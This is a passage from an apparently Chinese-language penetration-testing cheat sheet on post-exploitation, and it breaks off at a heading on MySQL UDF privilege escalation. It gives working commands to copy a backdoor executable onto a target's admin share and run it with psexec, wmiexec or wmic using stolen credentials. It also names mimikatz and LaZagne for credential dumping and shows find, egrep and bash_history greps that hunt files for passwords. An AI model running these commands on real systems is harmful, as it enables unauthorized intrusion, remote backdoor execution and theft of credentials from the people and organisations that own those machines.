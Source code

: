 * 查看目标主机共享

  ```
  net view \\target-ip   # 是否用空密码访问权限，如果知道用户名和密码
  copy shell.exe \\ip\c$\windows\temp\shell.exe
  ```

* 执行后门

  ```
  psexec \\ip -u userName -p userPass cmd.exe c:\windows\temp\shell.exe
  
  csript.exe wmiexec.vbs /cmd domainName userName userPass "ipconfig"
  
  wmic /node:ip /user:userName /password:userPass process call create "C:\Windows\temp\shell.exe"
  ```

## 收集用户口令

##### windows

mimikatz、LaZagne

Xshell凭证

远程连接凭证：https://github.com/3gstudent/List-RDP-Connections-History.git

##### linux

```
find ./ -type f -regex '.*\.txt|.*\.xml|.*\.php|.*\.jsp|.*\.conf|.*\.bak|.*\.js|.*\.inc|.*\.htpasswd|.*\.inf|.*\.ini|.*\.log|.*\.new' | xargs egrep "user|uname|pass|pwd|admin"

cat /root/.bash_history|grep -Ei -C 2 'ssh|mysql|ftp|scp|su|root|passwd'
```

## 存活主机

##### Windows

NetBIOS   UDP   137端口

ICMP

smb_version

telnet(需自己上传)

##### Linux

## 提权

##### Mysql提权

###### UDF(user defined function)提权

udf.dll 存放位置
